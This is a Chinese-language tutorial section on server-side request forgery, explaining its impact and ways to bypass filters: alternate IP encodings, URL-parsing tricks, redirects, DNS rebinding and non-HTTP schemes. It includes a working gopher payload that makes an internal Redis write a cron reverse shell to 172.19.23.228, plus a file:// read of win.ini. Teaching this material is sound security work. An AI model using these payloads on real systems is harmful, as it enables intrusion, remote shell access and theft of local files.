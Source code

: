 # SSRF
## 5.1 SSRF简介
SSRF（Server-Side Request Forgery，服务器端请求伪造）：通俗的来说就是我们可以伪造服务器端发起的请求，从而获取客户端所不能得到的数据。SSRF漏洞形成的原因主要是服务器端所提供的接口中包含了所要请求的内容的URL参数，并且未对客户端所传输过来的URL参数进行过滤。这个漏洞造成的危害有：

(1)、可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的banner信息;

(2)、攻击运行在内网或本地的应用程序（比如溢出）;

(3)、对内网Web应用进行指纹识别，通过访问默认文件实现;

(4)、攻击内外网的Web应用，主要是使用Get参数就可以实现的攻击（比如Struts2漏洞利用，SQL注入等）;

(5)、利用File协议读取本地文件。

一般的防御措施是对URL参数进行过滤，或者使得URL参数用户不可控。
    

## 5.3 SSRF绕过
### 5.3.1 更改IP地址写法
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

     ^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$
     ^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$
     ^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$

对于这种过滤我们可以采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址我们可以改写成：

    (1)、8进制格式：0300.0250.0.1
    (2)、16进制格式：0xC0.0xA8.0.1
    (3)、10进制整数格式：3232235521
    (4)、16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1
### 5.3.2 利用解析URL所出现的问题
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

     http://www.baidu.com@192.168.0.1/
当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。
### 5.3.3 利用302跳转
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用302跳转的方式来进行绕过。

     (1)、在网络上存在一个很神奇的服务，http://xip.io 当我们访问这个网站的子域名的时候，例如192.168.0.1.xip.io，就会自动重定向到192.168.0.1。
    (2)、由于上述方法中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，我们可以通过短地址的方式来绕过。经过测试发现新浪，百度的短地址服务并不支持IP模式，所以这里使用的是http://tinyurl.com所提供的短地址服务，如下图所示：
同样的，我们也可以自行写一个跳转的服务接口来实现类似的功能。
### 5.3.4 通过各种非HTTP协议：
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

     (1)、GOPHER协议：通过GOPHER我们在一个URL参数中构造Post或者Get请求，从而达到攻击内网应用的目的。例如我们可以使用GOPHER协议对与内网的Redis服务进行攻击，可以使用如下的URL：gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
     (2)、File协议：File协议主要用于访问本地计算机中的文件，我们可以通过类似file:///文件路径这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过file:///d:/1.txt 来访问D盘中1.txt的内容。
        e.g.: url=file:///C:/Windows/win.ini
### 5.3.5 DNS Rebinding
1. 对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就pass掉。
2. 但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间查，利用这个时间差，我们可以进行DNS 重绑定攻击。
3. 要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

     (1)、服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
     (2)、对于获得的IP进行判断，发现为非黑名单IP，则通过验证
     (3)、服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
     (4)、由于已经绕过验证，所以服务器端返回访问内网资源的结果。